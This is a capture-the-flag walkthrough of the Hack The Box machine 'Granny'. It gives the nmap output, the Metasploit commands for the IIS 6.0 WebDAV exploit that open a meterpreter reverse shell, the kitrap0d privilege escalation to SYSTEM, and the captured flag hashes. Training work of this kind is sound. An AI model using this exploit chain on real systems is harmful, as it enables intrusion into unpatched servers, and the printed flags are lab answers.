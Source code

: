 # Granny

## IP

> 10.10.10.15
## nmap Scan

```
nmap -T4 -A 10.10.10.15 -Pn
```

```a
Nmap scan report for 10.10.10.15
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 04 Aug 2021 04:51:02 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (88%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   68.68 ms 10.10.16.1
2   68.72 ms 10.10.10.15
```

## Open Ports
       
>80/tcp open  http    Microsoft IIS httpd 6.0

HTTP

## HTTP

http://10.10.10.14/

The server is using " Microsoft IIS httpd 6.0" so I searched online for exploits and found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/)

I followed the steps and I we got a meterpreter shell! But I cannot do anything, a lot of access denied :(

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.15
set lhost tun0
```

I also tried using the suggester and all the options got access denied

> [+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

The problem was that we were in a folder with no System Access

Locating a better folder

```ps```

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Granny/Pasted%20image%2020210804003440.png)

We need to migrate to a session with Network Service

```migrate 1840```

```getuid```

>Server username: NT AUTHORITY\NETWORK SERVICE

Now we are an user on the machine, but still not System.... Lets try the suggester again 

```
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

We are System!!!

### Finding user.txt

```
cd c:\\"Documents and Settings"\\Lakis\\Desktop
cat user.txt
```

> bdff5ec67c3cff017f2bedc146a5d869

### Finding root.txt

```
cd c:\\"Documents and Settings"\\Administrator\\Desktop
cat root.txt
```

> aa4beed1c0584445ab463a6747bd06e9
